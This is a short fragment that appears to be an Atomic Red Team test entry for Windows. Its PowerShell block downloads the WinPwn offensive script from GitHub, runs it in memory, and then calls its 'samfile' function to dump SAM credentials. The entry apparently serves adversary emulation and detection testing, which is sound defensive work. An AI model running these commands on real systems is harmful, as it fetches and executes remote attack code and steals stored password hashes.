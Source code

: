 **Supported Platforms:** Windows


**auto_generated_guid:** 0c0f5f06-166a-4f4d-bb4a-719df9a01dbb






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
samfile -consoleoutput -noninteractive
```






<br/>
